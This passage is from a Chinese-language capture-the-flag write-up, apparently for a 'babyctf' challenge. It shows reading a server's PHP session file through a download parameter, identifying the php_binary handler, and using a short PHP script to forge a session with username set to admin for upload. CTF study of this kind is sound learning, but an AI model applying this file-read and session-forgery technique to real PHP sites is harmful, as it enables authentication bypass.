 通过以上可知，要获取flag需满足

```
$_SESSION[‘username’] ===‘admin’
$filename=’/var/babyctf/success.txt’
```

也就是说我们伪造自己的username是admin，并穿件一个success.txt的文件

###### 伪造session

php的session默认存储文件名是sess_+PHPSESSID的值，我们先看一下session文件内容。
查看cookie中PHPSESSID

![image-20240909195231267](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409091952368.png)

构造`direction=download&attr=&filename=sess_e5212a8144f0d61543352a8bc5b4434f`post传入，在返回内容中读到内容

![image-20240909195406829](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409091954894.png)

我们发现还有一个不可见字符

参考https://blog.spoock.com/2016/10/16/php-serialize-problem/

不同的引擎所对应的session的存储方式有

php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值

php:存储方式是，键名+竖线+经过serialize()函数序列处理的值

php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值



我们可以判断这里session处理器为php_binary，那么我们可以在本地利用php_binary生成我们要伪造的session文件

```
<?php
ini_set('session.serialize_handler', 'php_binary');
session_save_path("D:\\phpstudy_pro\\WWW\\testphp\\");
session_start();

$_SESSION['username'] = 'admin';

```

运行生成session文件

![image-20240909200218919](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092002952.png)

将文件名改为sess并计算sha256

![image-20240909200459429](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092004488.png)

这样，如果我们见sess文件上传，服务器存储该文件的文件名就是

```
sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```
